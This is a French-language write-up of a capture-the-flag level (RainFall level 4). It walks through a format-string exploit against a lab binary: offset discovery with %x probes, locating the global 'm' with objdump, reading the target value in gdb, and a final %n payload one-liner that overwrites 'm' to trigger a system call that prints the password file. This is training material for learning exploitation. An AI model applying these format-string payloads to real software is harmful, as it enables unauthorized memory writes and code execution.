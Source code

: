 # Level 4

Dans ce programme nous voyons 2 fonctions, n() et p()
La fonction p() fait un appel a printf de maniere non securise, nous allons donc l'exploiter pour ecraser la valeur de la variable globale "m". Car la valeur de m est ensuite verifie dans une condition if pour nous afficher le .pass avec un appel a system et /bin/cat.

Nous allons d'abord chercher l'offset sur lequel ce printf ecrase la memoire:

```
level4@RainFall:~$ python -c 'print("AAAA" + "%08x." * 24)' | ./level4 | grep 41
AAAAb7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
```

Nous trouvons que c'est sur le 12eme octet.
Nous pouvons le verifier ainsi:

```
level4@RainFall:~$ python -c 'print("AAAA%12$p")' | ./level4
AAAA0x41414141
```

Nous cherchons ensuite l'adresse de la globale m

```
level4@RainFall:~$ objdump -t ./level4 | grep m
./level4:     file format elf32-i386
080481b0 l    d  .dynsym	00000000              .dynsym
080485b4 l    d  .eh_frame_hdr	00000000              .eh_frame_hdr
080485f8 l    d  .eh_frame	00000000              .eh_frame
08049710 l    d  .dynamic	00000000              .dynamic
00000000 l    d  .comment	00000000              .comment
08049808 l     O .bss	00000001              completed.6159
08048420 l     F .text	00000000              frame_dummy
080486f8 l     O .eh_frame	00000000              __FRAME_END__
08049710 l     O .dynamic	00000000              _DYNAMIC
00000000       F *UND*	00000000              system@@GLIBC_2.0
00000000  w      *UND*	00000000              __gmon_start__
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
08049810 g     O .bss	00000004              m
080484a7 g     F .text	0000000d              main
```

La derniere a faire est de trouver la valeur a mettre dans la globale m,
nous le faisons avec gdb:

```
level4@RainFall:~$ gdb ./level4
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    <span style="color:red">*$0x1025544,%eax*</span>
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

Finalement nous procedons a l'injection.
Le format "%Nd" remplace le `N` par un chiffre, ce qui nous permet de ne pas mettre les `N` octets nécessaires (Remplacer `"B" * 64` par `"%64d`)

```
$ (python -c 'print "\x10\x98\x04\x08"+"%"+str(0x1025540)+"d%12$n"') | ./level4
```

And we get the .pass !
